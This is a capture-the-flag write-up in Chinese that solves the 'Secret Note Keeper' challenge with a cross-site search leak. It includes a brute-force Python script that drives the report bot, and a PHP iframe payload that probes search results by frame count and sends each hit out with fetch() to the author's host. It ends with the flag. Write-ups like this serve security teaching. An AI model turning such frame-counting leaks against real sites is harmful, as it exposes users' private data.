 # Secret Note Keeper

Solved: 61

<br>

## 題目分析

- 這題乍看之下功能跟 35C3 filemanager 沒啥兩樣
    - login/logout/register
    - Add Note
    - Search Note
    - Report Bug
- 回報自己的 domain 看一下 BOT 的 User-Agent:
    - `HeadlessChrome/74.0.3729.169 Safari/537.36`
    - Chrome 74，看起來沒辦法用 XSS Auditor 去判斷
- 踹了一下，發現有兩種特殊字元
    - `_`能匹配任意一個字元
    - `%`能匹配任意多個字元
- 另外在 Search Note ，如果有找到時，會用 iframe 把該 note 抓進來

## Exploit

- 這題很明顯想考 XS-Leak
- 到這邊大概就能想到可以利用 frame count (`contentWindow.length`) 去判斷是否有找到 Note
    - 有找到 => frame count >= 1
    - 沒找到 => frame count = 0

- 寫個腳本暴力搜一下就行:

```python
import requests
import hashlib
import re

def POW(target):
    mx = 10 ** 8
    nonce = 0
    while nonce < mx:
        s = str(nonce)
        res = hashlib.md5(s).hexdigest()
        if res.startswith(target):
            print(res)
            return s
        nonce += 1

alphabet = "!-=+~:?0123456789|abcdefghijklmnopqrstuvwxyz<>ABCDEFGHIJKLMNOPQRSTUVWXYZ_"

for i in alphabet:

    cookie = {"session":"286b4d92-cf9d-5d8e-9da2-0d2ce4617ac3", "session":".eJwljgkOwzAMBP_C5oUOkiL2mUA8hKS14ySI32Mg2HJmgPBAYx15PmF_H5du8HgF7CdqXaVwJOG4qj0saBWt6qUPGegmprfD5u6JVKVRXblWbZ74PI16Yl9cR5_CLDciTxJyq3fVE9uMKbpKM13JEpjC3tpAD0jgOvP4n8HW4PsDAIIvzQ.XPJRVA.xJ6roM-pNGsVmS9dS0rJr_BoCpI;"}

    r = requests.get("http://challenges.fbctf.com:8082/report_bugs", cookies=cookie)

    x = re.findall("proof of work for (.*) \(", r.text)
    print(x[0])

    ans = POW(x[0])
    print "ans:" + ans

    r2 = requests.post("http://challenges.fbctf.com:8082/report_bugs", data={"link":"http://kaibro.tw/log.php?1="+i, "pow_sol":ans, "body":"","title":""}, cookies=r.cookies)
    print r2.text
```

其中 log.php:

```php
<iframe src="http://challenges.fbctf.com:8082/search?query=fb{cr055_s173_l34<?php echo $_GET[1];?>%}" onload="if(this.contentWindow.length>=1){fetch('http://kaibro.tw/?fb=ok');}">
```

如果收到 `ok` 就代表找到該字元，就能繼續爆下一個字元

flag: `fb{cr055_s173_l34|<5_4r4_c00ool!!}`
